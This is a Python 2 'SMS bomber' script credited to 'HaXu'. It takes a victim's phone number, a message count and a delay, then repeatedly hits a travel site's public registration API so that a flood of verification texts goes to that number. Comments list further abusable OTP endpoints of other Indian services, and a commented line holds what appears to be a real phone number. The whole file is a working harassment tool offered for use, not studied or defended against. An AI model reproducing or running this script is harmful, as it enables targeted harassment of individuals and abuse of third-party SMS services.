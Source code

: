 
#python2
#from urllib.request import Request,urlopen
import urllib2,cookielib
#from urllib.parse import urlencode
import platform
import os
import time

try:
    raw_input
except NameError:
    raw_input = input

def banner():
    if platform.system().lower()=="windows":
        os.system("cls")
    else:
        os.system("clear")
    print("""
  /$$$$$$  /$$      /$$  /$$$$$$        /$$$$$$$   /$$$$$$  /$$      /$$ /$$$$$$$  /$$$$$$$$ /$$$$$$$ 
 /$$__  $$| $$$    /$$$ /$$__  $$      | $$__  $$ /$$__  $$| $$$    /$$$| $$__  $$| $$_____/| $$__  $$
| $$  \__/| $$$$  /$$$$| $$  \__/      | $$  \ $$| $$  \ $$| $$$$  /$$$$| $$  \ $$| $$      | $$  \ $$
|  $$$$$$ | $$ $$/$$ $$|  $$$$$$       | $$$$$$$ | $$  | $$| $$ $$/$$ $$| $$$$$$$ | $$$$$   | $$$$$$$/
 \____  $$| $$  $$$| $$ \____  $$      | $$__  $$| $$  | $$| $$  $$$| $$| $$__  $$| $$__/   | $$__  $$
 /$$  \ $$| $$\  $ | $$ /$$  \ $$      | $$  \ $$| $$  | $$| $$\  $ | $$| $$  \ $$| $$      | $$  \ $$
|  $$$$$$/| $$ \/  | $$|  $$$$$$/      | $$$$$$$/|  $$$$$$/| $$ \/  | $$| $$$$$$$/| $$$$$$$$| $$  | $$
 \______/ |__/     |__/ \______/       |_______/  \______/ |__/     |__/|_______/ |________/|__/  |__/
                                                                                                                                                                                                    
                                   By : HaXu                                                                                                 
    Note : I won't be responsible for any damage caused by this script, Use at your own risk
""")

#https://circle.happycell.mobi/mylife/appapi/appcall.php?op=getOTC&app_version=78&pin=8167&msisdn=88

#http://t.justdial.com/api/india_api_write/10aug2016/sendvcode.php?mobile=

#https://securedapi.confirmtkt.com/api/platform/register?mobileNumber=
def send(num, counter, slep):
    #url = ["https://securedapi.confirmtkt.com/api/platform/register?mobileNumber=","https://m.naaptol.com/faces/jsp/ajax/ajax.jsp?actionname=checkMobileUserExists&mobile=","https://t.justdial.com/api/india_api_write/10aug2016/sendvcode.php?mobile="]
    url="https://securedapi.confirmtkt.com/api/platform/register?mobileNumber="
    #data={"phone":num}
    hdr = {'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11','Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8','Accept-Charset': 'ISO-8859-1,utf-8;q=0.7,*;q=0.3','Accept-Encoding': 'none','Accept-Language': 'en-US,en;q=0.8','Connection': 'keep-alive'}
    result_url=url+num
    req = urllib2.Request(result_url, headers=hdr)
    for x in range(counter):
        banner()
        #print("Target Number          : 01531999473", num)
        #print("Number of Message Sent : ", x+1)
        page = urllib2.urlopen(req)
        #resp1=Request(result_url)
        #urlopen(resp1)
        time.sleep(slep)
try:
    banner()
    number = raw_input("Enter mobileNumber: ")
    count = raw_input("Enter number of Message: ")
    throttle = raw_input("Enter time of sleep: ")
    send(number,int(count), int(throttle))
except Exception as e:
    print("Something is wrong please Re-run this script.")
    
   
